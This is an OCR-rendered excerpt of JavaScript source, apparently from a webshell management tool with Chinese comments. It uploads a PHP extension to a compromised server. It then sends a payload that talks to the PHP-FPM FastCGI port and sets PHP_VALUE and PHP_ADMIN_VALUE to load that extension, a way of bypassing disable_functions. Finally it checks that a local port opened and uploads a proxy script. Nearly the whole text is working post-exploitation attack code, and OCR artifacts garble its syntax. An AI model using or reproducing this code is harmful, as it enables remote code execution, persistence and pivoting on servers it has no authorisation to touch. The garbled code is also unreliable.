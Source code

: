 ```
            content: fileBuffer
          `}`)
        ).then((response) =&gt; `{`
          var ret = response['text'];
          if (ret === '1') `{`
            toastr.success(`Upload extension $`{`ext_path`}` success.`, LANG_T['success']);
            res(ext_path);
          `}` else `{`
            rej("upload extension fail");
          `}`
        `}`).catch((err) =&gt; `{`
          rej(err)
        `}`);
      `}`).then((p) =&gt; `{`
        // 触发 payload, 会超时
        var payload = `$`{`FastCgiClient()`}`;
          $content="";
          $client = new Client('$`{`fpm_host`}`',$`{`fpm_port`}`);
          $client-&gt;request(array(
            'GATEWAY_INTERFACE' =&gt; 'FastCGI/1.0',
            'REQUEST_METHOD' =&gt; 'POST',
            'SERVER_SOFTWARE' =&gt; 'php/fcgiclient',
            'REMOTE_ADDR' =&gt; '127.0.0.1',
            'REMOTE_PORT' =&gt; '9984',
            'SERVER_ADDR' =&gt; '127.0.0.1',
            'SERVER_PORT' =&gt; '80',
            'SERVER_NAME' =&gt; 'mag-tured',
            'SERVER_PROTOCOL' =&gt; 'HTTP/1.1',
            'CONTENT_TYPE' =&gt; 'application/x-www-form-urlencoded',
            'PHP_VALUE' =&gt; 'extension=$`{`p`}`',
            'PHP_ADMIN_VALUE' =&gt; 'extension=$`{`p`}`',
            'CONTENT_LENGTH' =&gt; strlen($content)
            ),
            $content
          );
          sleep(1);
          echo(1);
        `;
        core.request(`{`
          _: payload,
        `}`).then((response) =&gt; `{`

        `}`).catch((err) =&gt; `{`
          // 超时也是正常
        `}`)
      `}`).then(() =&gt; `{`
        // 验证是否成功开启
        var payload = `sleep(1);
          $fp = @fsockopen("127.0.0.1", $`{`port`}`, $errno, $errstr, 1);
          if(!$fp)`{`
            echo(0);
          `}`else`{`
            echo(1);
            @fclose($fp);
          `}`;`
        core.request(`{`
          _: payload,
        `}`).then((response) =&gt; `{`
          var ret = response['text'];
          if (ret === '1') `{`
            toastr.success(LANG['success'], LANG_T['success']);
            self.uploadProxyScript("127.0.0.1", port);
            self.cell.progressOff();
```